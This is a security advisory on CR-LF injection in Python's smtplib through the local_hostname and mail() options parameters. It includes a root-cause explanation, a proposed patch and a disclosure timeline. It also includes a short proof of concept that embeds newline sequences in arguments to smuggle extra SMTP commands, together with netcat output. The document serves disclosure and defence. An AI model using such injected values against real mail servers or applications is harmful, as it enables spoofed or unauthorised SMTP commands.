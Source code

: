 ```yaml
---
title: "Python - smtplib Multiple Crlf Injection"
date: 2021-05-28T13:57:33+01:00

cve: 
vendor: python
vendorUrl: https://www.python.org/
authors: tintinweb
affectedVersions: [at least 3.8.3, <=3.7.8, <=3.6.11, <=3.5.9, <=2.7.18]
vulnClass: CWE-93

---
```


# Vulnerability Note

ref: https://consensys.net/diligence/vulnerabilities/python-smtplib-multiple-crlf-injection/

## Summary 

>Python is a programming language that lets you work more quickly and integrate your systems more effectively.

Two CR-LF injection points have been discovered in the Python standard library for `SMTP` interaction (client perspective) named `smtplib` that may allow a malicious user with direct access to `smtplib.SMTP(..., local_hostname, ..)` or `smtplib.SMTP(...).mail(..., options)` to inject a CR-LF control sequence to inject arbitrary `SMTP` commands into the protocol stream.

The root cause of this is likely to be found in the design of the `putcmd(cmd, args)` method, that fails to validate that `cmd` nor `args` contains any protocol control sequences (i.e. `CR-LF`). 

It is recommended to reject or encode `\r\n` in `putcmd()` and enforce that potential multi-line commands call `putcmd()` multiple times to avoid that malicious input breaks the expected context of the method and hence cause unexpected behavior. For reference, the `DATA` command (multi-line) would not be affected by this change as it calls `putcmd()` only once and continues with directly interacting with the socket to submit the body.

## Details

### Description



The root cause of this (and probably also some earlier reported CR-LF injections) is the method `putcmd()` in `lib/smtplib.py`[3]. The method is called by multiple commands and does not validate that neither `cmd` nor `args` contains any `CRLF` sequences.

```python
def putcmd(self, cmd, args=""):
    """Send a command to the server."""
    if args == "":
        str = '%s%s' % (cmd, CRLF)
    else:
        str = '%s %s%s' % (cmd, args, CRLF)
    self.send(str)
```

However, the issue was initially found in `mail(..., options)` [4] which fails to ensure that none of the provided `options` contains `CRLF` characters. The method only ensures that provides mail addresses are quoted, `optionslist` is untouched:

```python
self.putcmd("mail", "FROM:%s%s" % (quoteaddr(sender), optionlist))
```

A similar issue was found with `smtplib.SMTP(...,local_hostname)` (and `helo(name)`, `ehlo(name)`) which may potentially contain `CRLF` sequences and, therefore, can be used to inject `SMTP` commands.

Here's a snipped of `helo` [5]
```python
def helo(self, name=''):
    """SMTP 'helo' command.
    Hostname to send for this command defaults to the FQDN of the local
    host.
    """
    self.putcmd("helo", name or self.local_hostname)
    (code, msg) = self.getreply()
    self.helo_resp = msg
    return (code, msg)
```

We highly recommend, fixing this issue once and for all directly in `putcmd()` and enforce that the interface can only send one command at a time, rejecting arguments that contain `CRLF` sequences or properly encoding them to avoid injection.

## Proof of Concept

1. set-up a local tcp listener `⇒  nc -l 10001`

2. run the following PoC and replay the server part as outline in 3.

```python
import smtplib

server = smtplib.SMTP('localhost', 10001, "hi\nX-INJECTED") # localhostname CRLF injection
server.set_debuglevel(1)
server.sendmail("hi@me.com", "you@me.com", "wazzuuup\nlinetwo")
server.mail("hi@me.com",["X-OPTION\nX-INJECTED-1","X-OPTION2\nX-INJECTED-2"]) # options CRLF injection

```

3. interact with `smtplib`, check for `X-INJECTED`

```
⇒  nc -l 10001                       
nc -l 10001
220 yo
ehlo hi
X-INJECTED
250-AUTH PLAIN
250
mail FROM:<hi@me.com>
250 ok
rcpt TO:<you@me.com>
250 ok
data
354 End data with <CR><LF>.<CR><LF> 
wazzuuup
linetwo
.
250 ok
mail FROM:<hi@me.com> X-OPTION
X-INJECTED-1 X-OPTION2
X-INJECTED-2
250 ok
quit
250 ok
```

### Proposed Fix

* enforce that `putcmd` emits exactly one command at a time and encode `\n -> \\n`.

```diff
diff --git a/Lib/smtplib.py b/Lib/smtplib.py
index e2dbbbc..9c16e7d 100755
--- a/Lib/smtplib.py
+++ b/Lib/smtplib.py
@@ -365,10 +365,10 @@ class SMTP:
     def putcmd(self, cmd, args=""):
         """Send a command to the server."""
         if args == "":
-            str = '%s%s' % (cmd, CRLF)
+            str = cmd
         else:
-            str = '%s %s%s' % (cmd, args, CRLF)
-        self.send(str)
+            str = '%s %s' % (cmd, args)
+        self.send('%s%s' % (str.replace('\n','\\n'), CRLF))
```

## Vendor Response

Vendor response: gone silent; stalled patch.

### Timeline


```
JUL/02/2020 - contact psrt; provided details, PoC, proposed patch
JUL/04/2020 - confirmed that vulnerability note was received
SEP/10/2020 - requested status update.
FEB/04/2021 - Filed issue https://bugs.python.org/issue43124 for transparency
MAY/28/2021 - disclosed over a year a go. public disclosure.
```

## References

* [1] https://www.python.org/
* [2] https://www.python.org/downloads/
* [3] https://github.com/python/cpython/blob/1da648aceb2496c672aff82ba37ee071ac6054ac/Lib/smtplib.py#L365-L371
* [4] https://github.com/python/cpython/blob/1da648aceb2496c672aff82ba37ee071ac6054ac/Lib/smtplib.py#L520
* [5] https://github.com/python/cpython/blob/1da648aceb2496c672aff82ba37ee071ac6054ac/Lib/smtplib.py#L428-L445
* [6] https://bugs.python.org/issue43124 